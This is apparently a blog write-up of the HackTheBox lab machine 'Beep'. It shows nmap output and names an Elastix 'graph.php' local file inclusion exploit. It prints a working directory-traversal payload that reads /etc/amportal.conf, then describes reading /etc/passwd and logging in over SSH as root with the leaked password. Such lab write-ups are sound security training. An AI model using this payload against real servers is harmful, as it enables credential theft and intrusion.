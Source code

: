 ```yaml
---
layout: post
title:  "HackTheBox :: Beep"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```

Beep was a very easy box with not much to learn. Would have liked to see more complex methods included as the initial vector was different and could have led to more interesting things.


# Nmap scan
```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: UIDL APOP LOGIN-DELAY(0) STLS AUTH-RESP-CODE EXPIRE(NEVER) TOP IMPLEMENTATION(Cyrus POP3 server v2) USER RESP-CODES PIPELINING
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            743/udp  status
|_  100024  1            746/tcp  status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed OK RENAME URLAUTHA0001 IMAP4 NO X-NETSCAPE QUOTA SORT CONDSTORE MULTIAPPEND UNSELECT IDLE CATENATE IMAP4rev1 ACL THREAD=REFERENCES LITERAL+ RIGHTS=kxte ATOMIC NAMESPACE BINARY ID LIST-SUBSCRIBED SORT=MODSEQ MAILBOX-REFERRALS CHILDREN ANNOTATEMORE UIDPLUS THREAD=ORDEREDSUBJECT STARTTLS LISTEXT
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2018-10-31T09:44:22+00:00; -2h00m46s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host
```

# Exploitation
We can see from the nmap scan and from navigating the page that the webserver is running elastix. A exploit-db search for elastix returns a local file inclusion that should reveal a user login and password from a config file.
```
Elastix 2.2.0 - 'graph.php' Local File Inclusion | exploits/php_webapps/37637.pl
```
Reading the exploit and grabbing the payload we can navigate back to the page and read the config file with the LFI
```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```
There are passwords in the config file as expected, next we can change the LFI to point to /etc/passwd to check for user accounts to try ssh with.

sshing into the box as root with the password from the config file works and we can collect our root and user flags.
